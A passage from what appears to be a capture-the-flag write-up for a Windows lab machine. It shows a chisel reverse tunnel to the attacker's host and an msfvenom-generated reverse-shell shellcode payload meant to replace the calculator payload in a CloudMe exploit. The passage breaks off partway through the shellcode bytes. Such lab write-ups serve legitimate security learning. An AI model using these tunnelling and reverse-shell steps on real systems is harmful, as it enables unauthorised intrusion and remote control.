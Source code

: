 ```shell
PS C:\Users\shaun\Documents> .\chisel.exe client 10.10.14.20:9001 R:8888:127.0.0.1:8888
.\chisel.exe client 10.10.14.20:9001 R:8888:127.0.0.1:8888
2020/11/13 17:30:15 client: Connecting to ws://10.10.14.20:9001
2020/11/13 17:30:16 client: Fingerprint b5:68:ef:99:75:54:cd:e2:04:eb:40:64:ba:af:fa:0f
2020/11/13 17:30:16 client: Connected (Latency 190.6329ms)
2020/11/13 17:33:21 client: Fingerprint 1a:53:38:1d:95:4d:8a:41:72:63:57:46:d5:67:dd:0e
2020/11/13 17:33:22 client: Connected (Latency 211.4254ms)
```

#### Port 8888 Listening on our machine

```shell
cfx:  ~/Documents/htb/buff
→ ss -tnlp
State              Recv-Q             Send-Q                         Local Address:Port                          Peer Address:Port             Process
LISTEN             0                  0                                    0.0.0.0:8020                               0.0.0.0:*                 users:(("pwncat",pid=7463,fd=4))
LISTEN             0                  128                                  0.0.0.0:111                                0.0.0.0:*                 users:(("rpcbind",pid=3276,fd=7))
LISTEN             0                  0                                       [::]:8020                                  [::]:*                 users:(("pwncat",pid=7463,fd=3))
LISTEN             0                  4096                                       *:8888                                     *:*                 users:(("chisel",pid=12191,fd=8))
LISTEN             0                  4096                                       *:9001                                     *:*                 users:(("chisel",pid=12191,fd=6))
```

### CloudMe Exploit

Going through the Exploit, it appears PoC was originally designed to open up calculator through code execution, We'll modify the payload the by generating a shellcode to give us a reverse shell using `msfvenom`

#### Generating Shellcode

With reference to Original PoC, we'll just change the payload type and also include the `-v payload` which sets the output payload variable name making it easy to the replace the shellcode in the script.

```shell
cfx:  ~/Documents/htb/buff
→ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.20 LPORT=1337 -b '\x00\x0A\x0D' -f python -v payload
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1869 bytes
payload =  b""
payload += b"\xdb\xd8\xb8\x2b\x66\x7d\x94\xd9\x74\x24\xf4\x5d"
payload += b"\x29\xc9\xb1\x52\x31\x45\x17\x83\xc5\x04\x03\x6e"
payload += b"\x75\x9f\x61\x8c\x91\xdd\x8a\x6c\x62\x82\x03\x89"
payload += b"\x53\x82\x70\xda\xc4\x32\xf2\x8e\xe8\xb9\x56\x3a"
payload += b"\x7a\xcf\x7e\x4d\xcb\x7a\x59\x60\xcc\xd7\x99\xe3"
payload += b"\x4e\x2a\xce\xc3\x6f\xe5\x03\x02\xb7\x18\xe9\x56"
payload += b"\x60\x56\x5c\x46\x05\x22\x5d\xed\x55\xa2\xe5\x12"
payload += b"\x2d\xc5\xc4\x85\x25\x9c\xc6\x24\xe9\x94\x4e\x3e"
payload += b"\xee\x91\x19\xb5\xc4\x6e\x98\x1f\x15\x8e\x37\x5e"
payload += b"\x99\x7d\x49\xa7\x1e\x9e\x3c\xd1\x5c\x23\x47\x26"
payload += b"\x1e\xff\xc2\xbc\xb8\x74\x74\x18\x38\x58\xe3\xeb"
payload += b"\x36\x15\x67\xb3\x5a\xa8\xa4\xc8\x67\x21\x4b\x1e"
```